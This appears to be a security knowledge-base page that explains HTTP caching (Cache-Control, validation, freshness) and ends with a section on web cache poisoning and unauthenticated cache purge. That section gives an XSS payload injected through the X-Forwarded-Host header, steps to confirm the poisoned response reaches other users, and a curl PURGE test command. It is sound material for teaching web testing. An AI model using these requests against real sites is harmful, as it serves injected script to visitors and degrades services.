


# HTTP caching overview

Caching is a technique that stores a copy of a given resource and serves it back when requested. When a web cache has a requested resource in its store, it intercepts the request and returns its copy instead of re-downloading from the originating server. 



This achieves several goals: 
- Server load reduction (the server doesn't have to serve all clients itself),
- Improve performance (it takes less time to transmit the resource back). 

On the other side, it has to be configured properly as not all resources stay identical forever: it is important to cache a resource only until it changes, not longer.

## Private browser caches

A private cache is dedicated to a single user. A browser cache holds all documents downloaded via HTTP by the user. This cache is used to make visited documents available for back/forward navigation, saving, viewing-as-source, etc. without requiring an additional trip to the server. It likewise improves offline browsing of cached content.


## Shared proxy caches

A shared cache is a cache that stores responses to be reused by more than one user. For example, an ISP or your company might have set up a web proxy as part of its local network infrastructure to serve many users so that popular resources are reused a number of times, reducing network traffic and latency.



## Targets of caching operations

Request methods can be defined as "cacheable" to indicate that responses to them are allowed to be stored for future reuse. The specification [RFC7231](https://tools.ietf.org/html/rfc7231#section-4.2.3) defines `GET`, `HEAD`, and `POST` as cacheable, although the overwhelming majority of cache implementations only support `GET` and `HEAD`.

The primary cache keys:
- Request method,
- Target URI.

Common forms of caching entries are:
- Successful results of a retrieval request: a `200 OK` response to a `GET` request containing a resource like HTML documents, images or files,
- Permanent redirects: a `301 Moved Permanently` response,
- Error responses: a `404 Not Found` result page,
- Incomplete results: a `206 Partial Content` response,
- Responses other than `GET` if something suitable for use as a cache key is defined.

### Varying responses

A cache entry might also consist of multiple stored responses differentiated by a secondary key, if the request is target of content negotiation.

The [Vary](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Vary) HTTP response header determines how to match future request headers to decide whether a cached response can be used rather than requesting a fresh one from the origin server.

When a cache receives a request that can be satisfied by a cached response that has a `Vary` header field, it must not use that cached response unless all header fields as nominated by the `Vary` header match in both the original (cached) request and the new request.

## Cache control

The `Cache-Control` (HTTP/1.1) general-header field is used to specify directives for caching mechanisms in both requests and responses. Caching directives are unidirectional, meaning that a given directive in a request is not implying that the same directive is to be given in the response.

The [Pragma](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Pragma) (HTTP/1.0) header does behave the same as `Cache-Control: no-cache`, if the `Cache-Control` header field is omitted in a request. Use Pragma only for backwards compatibility with HTTP/1.0 clients.

### No caching

```http
Cache-Control: no-store
```

The cache should not store anything about the client request or server response. A request is sent to the server and a full response is downloaded each and every time.

### Cache but revalidate

```http
Cache-Control: no-cache
```

A cache will send the request to the origin server for validation before releasing a cached copy, see: [Cache Validation](#cache-validation) section.

### Public cache

```http
Cache-Control: public
```

The `public` directive indicates the response may be cached by any cache, even if the response would normally be [non-cacheable](https://tools.ietf.org/html/rfc7234#section-3).

### Private cache

```http
Cache-Control: private
```

The `private` directive indicates that the response is intended for a single user only and must not be stored by a shared cache. A private browser cache may store the response in this case.

### Expiration

```http
Cache-Control: max-age=31536000
```

The `max-age` directive specify the maximum amount of time in seconds a resource will be considered fresh, see: [Freshness](#freshness) section.

### Validation

```http
Cache-Control: must-revalidate
```

The `must-revalidate` directive indicates that the cache must verify the status of the stale resources before using it and expired ones should not be used, see: [Cache Validation](#cache-validation) section.

## Cache validation

When a cached document's expiration time has been reached, it is either validated or fetched again. Validation can only occur if the server provided either a [strong validator](https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests#Strong_validation) or a [weak validator](https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests#Weak_validation).

Revalidation is triggered:
- If the user presses the reload button,
- If the cached response includes the `Cache-control: must-revalidate` header.

### ETag

The [ETag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/ETag) response header is an opaque-to-the-useragent value that can be used as a **strong** validator. That means that a HTTP user-agent, such as the browser, does not know what this string represents and can't predict what its value would be. If the `ETag` header was part of the response for a resource, the client can issue an [If-None-Match](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) in the header of future requests – in order to validate the cached resource.

The [Last-Modified](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Last-Modified) response header can be used as a **weak** validator. It is considered weak because it only has 1-second resolution. If the `Last-Modified` header is present in a response, the client can issue an [If-Modified-Since](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) request header to validate the cached document.

When a validation request is made, the server can either ignore the validation request and response with a normal `200 OK`, or it can return `304 Not Modified` (with an empty body) to instruct the browser to use its cached copy. The latter response can also include headers that update the expiration time of the cached document.

## Freshness

Once a resource is stored in a cache, it could theoretically be served by the cache forever. Caches have finite storage so items are periodically removed from storage (cache eviction).
 
As HTTP is a client-server protocol, servers can't contact caches and clients when a resource changes, they have to communicate an expiration time for the resource. Before this expiration time, the resource is **fresh**, after the expiration time, the resource is **stale**. Eviction algorithms often privilege fresh resources over stale resources. 

The freshness lifetime is calculated based on several headers:

1. If a `Cache-control: max-age=N` header is specified, then the freshness lifetime is equal to N,
2. Else if an [Expires](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expires) header is specified, then the freshness lifetime is equal to the value of `Expires` header minus the value of the [Date](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date) header. 
3. Else if `Last-Modified` header is present, then the freshness lifetime is equal to the value of the `Date` header minus the value of the `Last-Modified` header divided by 10.

# Security issues

The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.


## Basic cache poisoning

For example, let's take a look at request:

```http
GET /en?cb=1 HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: foo
```

and following response:

```http
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://foo/img/bar.png" />
```

Here the `X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag. The next step is to explore whether it's exploitable – start with a simple XSS payload:

```http
GET /en?bar=1 HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: foo."><script>alert(1)</script>
```

```http
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://foo."><script>alert(1)</script>"/> 
```

That response will execute arbitrary JavaScript against whoever views it. Don't let the `Cache Control: no-cache` header dissuade you – it's always better to attempt an attack than assume it won't work.

The final step is to check if this response has been stored in a cache so that it'll be delivered to other users. You can verify this first by sending the request without the malicious header, and then by fetching the URL directly in a browser on a different machine:

```http
GET /en?bar=1 HTTP/1.1
Host: vulnerable-website.com
```

```http
HTTP/1.1 200 OK
...
<meta property="og:image" content="https://foo."><script>alert(1)</script>"/>
```



References:
- [PortSwigger Research: Web Cache Entanglement: Novel Pathways to Poisoning](https://portswigger.net/research/web-cache-entanglement)
- [PortSwigger Research: Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)

## Unauthenticated cache purge

Cache purge allows you to delete stored cache. If the Purge request is available without authentication you can invalidate stored cache, increase bandwidth costs and degrade application performance.

You can check this with the following curl request:

```bash
$ curl -X PURGE https://vulnerable-website.com/
```

It a resource vulnerable you will see the answer like the following:

```json
{
    "status": "ok",
    "id": "4234-1234567890-123123"
}
```

Otherwise, a response will contain an error:

```json
{
    "msg": "Credentials are missing or invalid"
}
```

References:
- [Writeup: Apple Hall Of Fame for a Small Misconfiguration || Unauth Cache Purging](https://sapt.medium.com/apple-hall-of-fame-for-a-small-misconfiguration-unauth-cache-purging-faf81b19419b)
- [Report: Cache purge requests are not authenticated](https://hackerone.com/reports/154278)

# References

- [RFC7234 - Hypertext Transfer Protocol (HTTP/1.1): Caching](https://tools.ietf.org/html/rfc7234)
- [Docs - HTTP caching](https://developer.mozilla.org/en-US/docs/Web/HTTP/Caching)
- [Docs - Cache-Control](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control)
- [Cache poisoning and other dirty tricks](https://lab.wallarm.com/cache-poisoning-and-other-dirty-tricks-120468f1053f/)
- [Write up: Abusing HTTP Path Normalization and Cache Poisoning to steal Rocket League accounts](https://samcurry.net/abusing-http-path-normalization-and-cache-poisoning-to-steal-rocket-league-accounts/)
- [Tool: FockCache - Minimalized Test Cache Poisoning](https://github.com/tismayil/fockcache)
